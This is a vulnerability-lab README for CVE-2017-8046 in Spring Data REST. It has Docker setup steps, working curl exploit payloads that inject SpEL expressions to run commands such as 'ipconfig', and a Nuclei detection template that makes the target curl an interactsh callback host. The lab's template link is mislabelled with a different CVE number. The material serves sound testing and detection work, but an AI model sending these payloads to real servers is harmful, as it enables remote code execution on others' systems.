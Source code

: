 # CVE-2017-8046: Spring Data REST < 2.6.9 (Ingalls SR9) / 3.0.1 (Kay SR1) - PATCH Request Remote Code Execution

## Description:

Spring Data REST < 2.6.9 and 3.0.1, Spring Boot < 1.5.9 and 2.0 M6 contain a remote code execution caused by processing malicious PATCH requests with crafted JSON data, letting attackers execute arbitrary Java code, exploit requires sending malicious PATCH requests.

## Reference:
- https://nvd.nist.gov/vuln/detail/CVE-2017-8046
- https://spring.io/security/cve-2017-8046

## Vulnerable Setup

- Execute the following commands to start a the vulnerable springboot app:

```
docker compose up --build -d
```

- After the server is started, make the following curl request to create an entity 

`curl -i -X POST -H "Content-Type: application/json" -d '{ "name" : "Test", "attribute" : "foo"}' http://localhost:8080/entity`

# Exploitation Steps

- Make a PATCH request to the entity URL http://localhost:8080/entity/1 like below:

`curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(java.lang.Thread).sleep(10000).x", "value" : "pwned" }]' "http://localhost:8080/entity/1"`

- This will cause the server to wait 10s before responding

- You can also execute commands like below:

`curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(org.springframework.util.StreamUtils).copy(T(java.lang.Runtime).getRuntime().exec(\"ipconfig\").getInputStream(), T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream()).x", "value" : "pwned" }]' "http://localhost:8080/entity/1/"`


# Nuclei Template

```yaml
id: CVE-2017-8046

info:
  name: Spring Data REST < 2.6.9 (Ingalls SR9) / 3.0.1 (Kay SR1) - PATCH Request Remote Code Execution
  author: domwhewell-sage
  severity: critical
  description: |
    Spring Data REST < 2.6.9 and 3.0.1, Spring Boot < 1.5.9 and 2.0 M6 contain a remote code execution caused by processing malicious PATCH requests with crafted JSON data, letting attackers execute arbitrary Java code, exploit requires sending malicious PATCH requests.
  impact: |
    Malicious PATCH requests submitted to servers using Spring Data REST versions prior to 2.6.9 (Ingalls SR9), versions prior to 3.0.1 (Kay SR1) and Spring Boot versions prior to 1.5.9, 2.0 M6 can use specially crafted JSON data to run arbitrary Java code.
  remediation: |
    To remediate this vulnerability, update to Spring Data REST version 2.6.9 or later, or 3.0.1 or later, and Spring Boot version 1.5.9 or later, or 2.0 M6 or later.
  reference:
    - https://nvd.nist.gov/vuln/detail/CVE-2017-8046
    - https://spring.io/security/cve-2017-8046
  classification:
    cvss-metrics: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
    cvss-score: 9.8
    cve-id: CVE-2017-8046
    cwe-id: CWE-20
    cpe: cpe:2.3:a:pivotal_software:spring_data_rest:*:*:*:*:*:*:*:*
  metadata:
    vendor: pivotal_software
    product: spring_data_rest
    shodan-query: http.title:"eureka"
  tags: cve,cve2017,pivotal,springboot,pivotal_software

flow: |
  http(1)
  set("endpoint", template.endpoint)
  http(2)

http:
  - method: GET
    path:
      - "{{BaseURL}}"

    redirects: true
    max-redirects: 3

    matchers-condition: and
    matchers:
      - type: word
        internal: true
        part: header
        words:
          - "application/json"
          - "application/hal+json"
          - "application/vnd.spring-boot.actuator"
        condition: or

      - type: word
        internal: true
        part: body
        words:
          - '"_embedded"'
          - '"_links"'
          - '"page"'
          - '"size"'
        condition: or

    extractors:
      - type: regex
        name: endpoint
        part: body
        group: 1
        internal: true
        regex:
          - '"href"\s*:\s*"([^"]+)\{\?page,size,sort\}"'

  - method: PATCH
    path:
      - "{{endpoint}}/1"
    headers:
      Content-Type: application/json-patch+json
    body: |
      [
        {
          "op": "replace",
          "path": "T(java.lang.Runtime).getRuntime().exec(\"curl {{interactsh-url}}\").x",
          "value": "CVE-2017-8046"
        }
      ]

    matchers-condition: and
    matchers:
      - type: word
        part: interactsh_protocol
        words:
          - dns

      - type: word
        part: body
        words:
          - "org.springframework"
```

## Nuclei Template URL : [CVE-2024-55416](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2017/CVE-2017-8046.yaml)

## Nuclei Command :

```bash
nuclei -id CVE-2017-8046 -u http://localhost:8080 -vv
```

![image](https://github.com/user-attachments/assets/87765d8a-4658-4893-9f62-467c0bf21757)

